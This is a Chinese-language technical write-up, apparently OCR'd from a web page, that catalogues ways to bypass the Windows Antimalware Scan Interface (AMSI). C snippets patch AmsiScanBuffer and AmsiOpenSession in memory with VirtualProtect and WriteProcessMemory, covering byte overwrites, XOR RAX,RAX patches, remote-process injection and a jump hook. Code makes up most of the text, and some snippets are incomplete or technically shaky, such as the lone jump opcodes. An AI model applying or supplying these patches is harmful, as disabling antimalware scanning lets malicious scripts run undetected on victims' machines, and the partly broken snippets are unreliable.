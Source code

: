   
**内存保护修改**  
  
这种方法通过临时更改目标函数的内存保护来允许修改。  
```
FARPROC functionAddr = GetProcAddress(LoadLibrary("amsi.dll"), "AmsiScanBuffer");  DWORD oldProtect;  VirtualProtect(functionAddr, 1, PAGE_EXECUTE_READWRITE, &oldProtect);  memcpy(functionAddr, "\x74", 1);  VirtualProtect(functionAddr, 1, oldProtect, &oldProtect);
```  
> - 我们像之前一样定位 AmsiScanBuffer  
 函数 - 使用 VirtualProtect()  
 将内存保护更改为 PAGE_EXECUTE_READWRITE - 使用 memcpy()  
 用 0x74  
 (JE/JZ 指令) 覆盖函数的第一个字节 - 我们恢复原始的内存保护  
  
  
**汇编级函数修补**  
  
这种技术涉及注入特定的汇编指令来改变函数行为。  
```
FARPROC functionAddr = GetProcAddress(LoadLibraryA("amsi.dll"), "AmsiScanBuffer");  unsigned char jumpPatch[] = {0xEB};  WriteProcessMemory(GetCurrentProcess(), functionAddr, jumpPatch, sizeof(jumpPatch), NULL);
```  
  
**指令覆盖**  
  
该方法用简单的中性指令覆盖函数的开始部分。  
```
unsigned char nopPatch[] = {0x48, 0x31, 0xC0}; // XOR RAX, RAX  WriteProcessMemory(GetCurrentProcess(), functionAddr, nopPatch, sizeof(nopPatch), NULL);
```  
> - nopPatch  
 包含指令 XOR RAX, RAX  
（机器码为 48 31 C0） - 该指令清除 RAX 寄存器，该寄存器通常用于 x64 调用约定中的返回值 - 通过清除 RAX，我们确保函数始终返回 0，表示成功并绕过扫描  
  
  
**远程进程注入**  
  
这种技术允许在不同的进程中修补 AMSI。  
```
HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION, FALSE, pid);  FARPROC functionAddr = GetProcAddress(LoadLibraryA("amsi.dll"), "AmsiOpenSession");  unsigned char bypass[] = {0x48, 0x31, 0xC0};  WriteProcessMemory(hProc, (LPVOID)functionAddr, bypass, sizeof(bypass), NULL);  CloseHandle(hProc);
```  
> - OpenProcess() 获取目标进程的句柄 - 我们在 AMSI DLL 中定位 AmsiOpenSession  
 函数 - bypass  
 数组包含 XOR RAX, RAX  
 指令 - WriteProcessMemory() 将此代码注入目标进程的内存空间 - 我们关闭进程句柄以清理资源  
  
  
**函数钩子**  
  
这种方法涉及将 AMSI 函数重定向到自定义实现。  
```
FARPROC amsiScanAddr = GetProcAddress(LoadLibrary("amsi.dll"), "AmsiScanBuffer");  unsigned char hook[] = {0xE9};  WriteProcessMemory(GetCurrentProcess(), amsiScanAddr, hook, sizeof(hook), NULL);
```  
> - 我们定位 AmsiScanBuffer  
 函数 - hook  
 数组包含 0xE9  
，这是 x86/x64 汇编中近跳转指令的操作码 - 这是 5 字节跳转指令的第一个字节 - 实现过程需要计算并写入跳转偏移量以重定向到自定义函数  
  